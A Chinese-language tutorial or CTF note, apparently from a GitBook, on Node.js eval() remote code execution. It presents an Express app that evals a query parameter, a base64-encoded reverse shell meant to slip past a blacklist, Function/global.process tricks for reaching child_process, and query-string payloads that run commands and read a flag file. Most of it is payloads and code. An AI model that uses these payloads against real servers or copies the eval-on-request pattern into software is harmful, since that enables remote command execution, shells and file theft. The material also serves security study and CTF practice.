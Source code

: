 eval()函数执行其中的js代码，和PHP的eval函数一样

```javascript
const express = require("express");
const app = express();

app.get('/', function(req,res){
	res.end('Try to RCE');
})

app.get('/evil', function(req, res){
	res.send(eval(req.query.q));
	console.log(req.query.q);
})


const server = app.listen(8888, function(){
	console.log("Server Starts http://127.0.0.1:8888/")
})
```

Node.js中的child_process.exec调用的是/bash.sh，它是一个bash解释器，可以执行系统命令。

> 弹计算器 q=require('child_process').exec('calc');
>
> 反弹shell q=require('child_process').exec('echo YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMjcuMC4wLjEvMzMzMyAwPiYx|base64 -d|bash');   // base64编码绕过黑名单
>
> // bash -i >& /dev/tcp/127.0.0.1/3333 0>&1
>
> 注意：BASE64加密后的字符中有一个+号需要url编码为%2B(URL传参时)

对于Function来说上下文并不存在require，需要从global中一路调出来exec。若上下文没有require，可以使用`Function("global.process.mainModule.constructor._load('child_process').exec('calc')")();`
或`Function("global.process.mainModule.require('child_process').exec('calc')")();`

![image-20221224225516768](.\.gitbook\assets\image-20221224225516768.png)

其他函数：

间隔两秒执行函数：

- setInteval(some_function, 2000)

两秒后执行函数：

- setTimeout(some_function, 2000);



```javascript
> ?eval=require('child_process').execSync('ls');
> ?eval=require('child_process').execSync('ls').toString();
> ?eval=require('child_process').spawnSync('ls').output;
> ?eval=require('child_process').spawnSync('ls').stdout;
>
> ?eval=require('child_process').execSync('cat fl00g.txt');
> ?eval=require('child_process').spawnSync('cat',['fl00g.txt']).output;

> 读文件
> ?eval=require('fs').readdirSync('.');
> ?eval=require('fs').readFileSync('fl00g.txt');
```

有时候在命令执行中使用全局变量去探测可能会有奇效
`__dirname`、`__filename`